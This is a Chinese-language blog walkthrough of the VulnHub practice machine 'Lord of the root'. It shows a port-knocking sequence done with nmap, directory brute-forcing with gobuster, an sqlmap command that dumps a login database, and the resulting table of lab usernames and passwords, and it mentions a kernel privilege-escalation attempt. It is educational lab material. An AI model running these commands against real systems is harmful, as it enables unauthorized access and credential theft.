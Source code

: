 ```yaml
---
layout: post
title:  "Lord of the root"
description: walkthrough
category: vulnhub
---
```

# Lord of the root

![image-20200618034235354]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618034235354.png)

![image-20200618034302713]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618034302713.png)

查看了漏洞利用文件，需要拥有凭证。

登录ssh看看

![image-20200618034641444]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618034641444.png)

需要敲端口

敲端口相关阅读

> port-knock技巧
>
> https://www.endpoint.com/blog/2009/11/16/port-knocking-with-knockd
>
>  有一种绕过它的方法。通过在一组预先指定的关闭端口上生成连接尝试，打开端口的方法是打开防火墙上的端口。 一旦收到正确的连接尝试序列，防火墙将打开以前关闭的端口。
>
> https://www.exploit-db.com/exploits/28718
>
> https://blog.rapid7.com/2017/10/04/how-to-secure-ssh-server-using-port-knocking-on-ubuntu-linux/ 

```bash
nmap -Pn --host-timeout 100 --max-retries 0 -p 1 10.10.10.133
nmap -Pn --host-timeout 100 --max-retries 0 -p 2 10.10.10.133
nmap -Pn --host-timeout 100 --max-retries 0 -p 3 10.10.10.133
```



![image-20200618035109052]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035109052.png)

1337开了

![image-20200618035346345]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035346345.png)

![image-20200618035428938]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035428938.png)

![image-20200618035832036]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035832036.png)

又是开局一张图

![image-20200618035654402]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618035654402.png)

这个本地ip可能需要留意一下

打目录

```bash
gobuster -u http://10.10.10.133:1337/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt dir -s '200,204,301,302,307,401,403' -k -e -l -x php,txt,apsx,asp,html -t 10
```

![image-20200618041448264]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041448264.png)

![image-20200618041514208]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041514208.png)

```bash
THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh
```

![image-20200618041740499]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041740499.png)

```bash
/978345210/index.php
```

![image-20200618041832820]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618041832820.png)

抓包存储为login.txt

```bash
sqlmap -r login.txt --batch --dump
```

![image-20200618213029466]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618213029466.png)

```bash
+------+----------+------------------+
| id   | username | password         |
+------+----------+------------------+
| 1    | frodo    | iwilltakethering |
| 2    | smeagol  | MyPreciousR00t   |
| 3    | aragorn  | AndMySword       |
| 4    | legolas  | AndMyBow         |
| 5    | gimli    | AndMyAxe         |
+------+----------+------------------+
```







![image-20200618210446764]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618210446764.png)

其他常规枚举并没有发现什么有用的，尝试内核提权

![image-20200618212045518]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618212045518.png)



![image-20200618213557693]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618213557693.png)

![image-20200618213732516]({{ site.url }}/assets/Lord_of_the_root.assets/image-20200618213732516.png)